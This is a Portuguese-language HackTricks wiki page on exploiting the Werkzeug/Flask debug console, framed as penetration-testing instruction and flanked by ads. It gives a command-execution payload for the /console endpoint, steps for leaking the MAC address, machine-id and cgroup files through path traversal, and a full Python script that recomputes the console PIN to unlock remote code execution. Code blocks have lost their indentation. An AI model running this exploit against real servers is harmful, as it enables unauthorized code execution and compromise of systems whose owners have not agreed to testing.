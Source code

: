 # Werkzeug / Flask Debug

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Configuração imediatamente disponível para avaliação de vulnerabilidade & pentesting**. Realize um pentest completo de qualquer lugar com mais de 20 ferramentas & recursos que vão desde reconhecimento até relatórios. Não substituímos pentesters - desenvolvemos ferramentas personalizadas, módulos de detecção & exploração para lhes dar mais tempo para investigar mais a fundo, explorar sistemas e se divertir.

{% embed url="https://pentest-tools.com/" %}

## Console RCE

Se o debug estiver ativo, você pode tentar acessar `/console` e obter RCE.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (317).png>)

Existem também vários exploits na internet como [este](https://github.com/its-arun/Werkzeug-Debug-RCE) ou um no metasploit.

## Protegido por PIN - Path Traversal

Em algumas ocasiões, o endpoint **`/console`** vai estar protegido por um PIN. Se você tiver uma vulnerabilidade de **traversal de arquivo**, você pode obter todas as informações necessárias para gerar esse PIN.

### Exploit do PIN da Console Werkzeug

**Copiado do primeiro link.**\
Veja a mensagem “console bloqueada” do Werkzeug forçando a página de erro de debug no aplicativo.
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Localize o console de debug vulnerável Werkzeug no caminho `vulnerable-site.com/console`, mas está bloqueado por um número PIN secreto.

Você pode reverter o algoritmo que gera o PIN do console. Inspecione o arquivo `__init__.py` do debug do Werkzeug no servidor, por exemplo, `python3.5/site-packages/werkzeug/debug/__init__.py`. Você pode visualizar o [**repositório de código-fonte do Werkzeug**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) **para verificar como o PIN é gerado**, mas é melhor obter o código-fonte através de **vulnerabilidade de travessia de arquivo** já que as versões provavelmente diferem.

Variáveis necessárias para explorar o PIN do console:
```python
probably_public_bits = [
username,
modname,
getattr(app, '__name__', getattr(app.__class__, '__name__')),
getattr(mod, '__file__', None),
]

private_bits = [
str(uuid.getnode()),
get_machine_id(),
]
```
#### **`probably_public_bits`**

* **`username`** é o usuário que iniciou este Flask
* **`modname`** é flask.app
* `getattr(app, '__name__', getattr(app.__class__, '__name__'))` é **Flask**
* `getattr(mod, '__file__', None)` é o **caminho absoluto de `app.py`** no diretório flask (ex.: `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Se `app.py` não funcionar, **tente `app.pyc`**

#### `private_bits`

*   `uuid.getnode()` é o **endereço MAC do computador atual**, `str(uuid.getnode())` é a expressão decimal do endereço mac.

* Para **encontrar o endereço MAC do servidor**, é necessário saber qual **interface de rede está sendo usada** para servir o aplicativo (ex.: `ens3`). Se desconhecido, **vaze `/proc/net/arp`** para identificação do dispositivo e então **vaze** o endereço MAC em **`/sys/class/net/<id do dispositivo>/address`**.

Converta **de endereço hex para representação decimal** executando em python, por exemplo:

```python
# Era 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* `get_machine_id()` concatena os **valores em `/etc/machine-id`** ou **`/proc/sys/kernel/random/boot_id`** com a **primeira linha de `/proc/self/cgroup`** após a última barra (`/`).

<details>

<summary>Código de get_machine_id()</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Uma vez todas as variáveis preparadas, execute o script de exploit para gerar o PIN do console Werkzeug:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',# username
'flask.app',# modname
'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
{% hint style="success" %}
Se você estiver em uma **versão antiga** do Werkzeug, tente mudar o **algoritmo de hash para md5** em vez de sha1.
{% endhint %}

## Referências

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Configuração imediatamente disponível para avaliação de vulnerabilidade & pentesting**. Execute um pentest completo de qualquer lugar com mais de 20 ferramentas & recursos que vão desde recon até relatórios. Não substituímos pentesters - desenvolvemos ferramentas personalizadas, módulos de detecção & exploração para dar a eles mais tempo para investigar mais a fundo, explorar sistemas e se divertir.

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

